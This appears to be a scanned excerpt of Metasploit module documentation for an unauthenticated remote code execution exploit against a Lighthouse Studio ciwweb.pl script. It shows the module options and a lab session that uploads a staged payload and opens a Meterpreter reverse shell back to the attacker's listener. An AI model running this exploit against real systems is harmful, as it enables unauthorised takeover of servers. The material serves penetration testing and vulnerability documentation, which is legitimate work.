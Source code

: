 ```
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   STUDYNAME                      no        Value for the hid_studyname GET parameter
   TARGETURI  /cgi-bin/ciwweb.pl  yes       Path to vulnerable ciwweb.pl
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Dropper



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300) > set RHOSTS 192.168.19.129
RHOSTS => 192.168.19.129
msf6 exploit(multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300) > set STUDYNAME 123
STUDYNAME => 123
msf6 exploit(multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300) > set LHOST eth0
LHOST => 192.168.19.130
msf6 exploit(multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300) > set SRVPORT 9999
SRVPORT => 9999
msf6 exploit(multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300) > run

[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Extracting version...
[*] Extracted version: 9.16.12
[+] The target appears to be vulnerable.
[*] Uploading malicious payload...
[*] Command Stager progress -  44.31% done (362/817 bytes)
[*] Uploading malicious payload...
[*] Sending stage (3045380 bytes) to 192.168.19.129
[*] Meterpreter session 1 opened (192.168.19.130:4444 -> 192.168.19.129:39790) at 2025-07-20 07:04:31 -0400
[*] Command Stager progress -  97.31% done (795/817 bytes)
[*] Uploading malicious payload...
[*] Command Stager progress - 100.00% done (817/817 bytes)

meterpreter > sysinfo
Computer     : 192.168.19.129
```